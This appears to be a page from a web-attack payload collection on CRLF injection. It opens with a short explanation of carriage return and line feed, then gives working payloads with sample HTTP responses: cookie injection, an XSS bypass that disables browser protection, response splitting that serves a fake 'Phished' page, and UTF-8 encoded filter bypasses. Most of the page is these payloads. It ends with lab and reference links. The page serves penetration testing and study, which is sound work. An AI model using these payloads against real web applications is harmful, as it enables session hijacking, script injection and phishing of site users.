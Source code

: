 # Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.


## Summary

* [Methodology](#methodology)
    * [Add a cookie](#add-a-cookie)
    * [Add a cookie - XSS Bypass](#add-a-cookie---xss-bypass)
    * [Write HTML](#write-html)
    * [Filter Bypass](#filter-bypass)
* [Labs](#labs)
* [References](#references)


## Methodology

### Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```


### Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```


### Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```


### Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* `%E5%98%8A` = `%0A` = \u560a
* `%E5%98%8D` = `%0D` = \u560d
* `%E5%98%BE` = `%3E` = \u563e (>)
* `%E5%98%BC` = `%3C` = \u563c (<)


## Labs

* [PortSwigger - HTTP/2 request splitting via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)
* [Root Me - CRLF](https://www.root-me.org/en/Challenges/Web-Server/CRLF)


## References

- [CRLF Injection - CWE-93 - OWASP - May 20, 2022](https://www.owasp.org/index.php/CRLF_Injection)
- [Starbucks: [newscdn.starbucks.com] CRLF Injection, XSS - Bobrov - 2016-12-20](https://vulners.com/hackerone/H1:192749)